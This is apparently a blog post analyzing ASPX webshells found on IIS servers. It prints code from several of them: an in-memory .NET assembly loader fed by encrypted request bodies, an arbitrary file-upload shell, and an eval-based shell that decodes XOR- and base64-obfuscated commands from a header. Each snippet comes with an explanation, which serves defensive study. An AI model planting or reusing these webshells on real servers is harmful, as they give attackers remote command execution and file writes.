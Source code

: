 ```yaml
---
layout: post
title:  "ASPX Webshells analysis"
---
```


The analyzed webshells consist of the following: 

# App.asbx

- Page_Load function: return environment variable "APP_POOL_ID" value when page is loaded and the "
- APP_POOL_ID : The name of the application pool that is running the IIS worker process handling the request
- Execute function: Creates a new cmd process "cmd.exe /c time /T" to get the current time
- Query function: Execute SQL query and return output
- Upload: Create File with data in temp folder and return path to file
- Fix: change file creation, last access, and last write time.

# IP.aspx

```c
*byte[] c=Request.BinaryRead(Request.ContentLength);*

*string asname=System.Text.Encoding.ASCII.GetString(new byte[] {0x53,0x79,0x73,0x74,0x65,0x6d,0x2e,0x52,0x65,0x66,0x6c,0x65,0x63,0x74,0x69,0x6f,0x6e,0x2e,0x41,0x73,0x73,0x65,0x6d,0x62,0x6c,0x79});//System.Reflection.Assembly*

*Type assembly=Type.GetType(asname);*

*MethodInfo load = assembly.GetMethod("Load",new Type[] {new byte[0].GetType()});*

*object obj=load.Invoke(null, new object[]{Decrypt(c)});*

*MethodInfo create = assembly.GetMethod("CreateInstance",new Type[] { "".GetType()});*

*string name = System.Text.Encoding.ASCII.GetString(new byte[] { 0x55 }); //U*

*object pay=create.Invoke(obj,new object[] { name });*

*pay.Equals(this);*
```

When the request is received, the binary in the request is read to memory, then it is decrypted with AES ECB algorithm, and the Load method of *System.Reflection.Assembly* is called to load the .NET binary in memory. After loading the binary, the *CreateInstance* method is called to get the binary instance, and finally, the “Equals” method is called from the binary.

# SC.aspx

```c
String filePath = String.IsNullOrEmpty(Request["filePath"])?Request.ServerVariables["APPL_PHYSICAL_PATH"]:Request["filePath"];

if(Request.Files.AllKeys.Length > 0){

foreach (string fileString in Request.Files.AllKeys){

HttpPostedFile file = Request.Files[fileString];

file.SaveAs(filePath + file.FileName);

Response.Write(filePath + file.FileName);

}

}else{

Response.Write(string.Format("<form action='' method='post' enctype='multipart/form-data'><input name='filePath' type='text' value='{0}' /><input name='file' type='file' /><input type='submit' value='submit'></form>",filePath));

}

%>
```

The websshell reads a list of file from the request and writ them to the machine in a specific path.

# MSCV.aspx

```c
*function xor(str)*

*{*

*var key = "cc17c30cd111c7215fc8f51f8790e0e1";*

*var ins = [];*

*for(var x=0;x<str.length;x++)*

*{*

*ins[x] = str[x] ^ key[x%32];*

*}*

*return ins;*

*}*

*function tt(str)*

*{*

*var c = str.ToCharArray();*

*var l = str.length;*

*var r = "";*

*for (var i = 0; i < l ; i++)*

*{*

*r = r + c[l - i - 1];*

*}*

*var eee = xor(System.Convert.FromBase64String(r));*

*return eee;*

*}*

*function un(str,rrr)*

*{*

*return "" + eval(System.Text.Encoding.GetEncoding("UTF-8").GetString(tt(Request.Item["ceshi"].substr(22))),str+rrr);*

*}*

*un('uns',"afe");*

*%>*
```

The payload is in in the header item “ceshi”. The payload starts at offset 22, it is read and passed to the “tt” function. The string is first reversed, then it is decoded using base64, and finally the xor function is called to decrypt the bytes and get the command to run in eval function to execute the command.